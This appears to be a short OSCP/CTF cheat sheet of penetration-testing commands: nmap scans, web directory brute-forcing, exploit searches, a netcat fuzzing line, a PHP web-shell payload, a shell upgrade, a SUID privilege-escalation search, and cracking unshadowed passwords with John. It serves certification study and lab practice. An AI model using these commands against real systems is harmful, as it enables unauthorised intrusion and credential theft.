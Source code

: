 

# OSCP
OSCP / CTF

<code>
ENUM

Portscan all Ports
sudo nmap -sS -p- <ip>

Portscan with Scripts and Fingerprinting
sudo nmap -sS -sV -sC -p22,80,9000 <ip>

Web Vuln-Scan
nikto -host 192.168.56.205

Web Enum BruteForce
gobuster -t 100 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<host>
https://github.com/danielmiessler/SecLists
big wordlist:
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/dirsearch.txt
gobuster -t 100 dir -w big.txt -u http://<host>
  
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -u http://<ip>/FUZZ -t 500
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -u http://<ip>/config/FUZZ -t 500 -mc 200

CVE / Exploit Search
searchsploit <name>
searchsploit -p <id>
cp <path> .

Fuzzing 
python -c 'print("A" * 5000)' | nc <ip> <port>
  
php shell command
"<?php system('id'); ?>"

upgrade shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

SUID BINARY
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null

Crack Password with John
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt 

  </code>
  

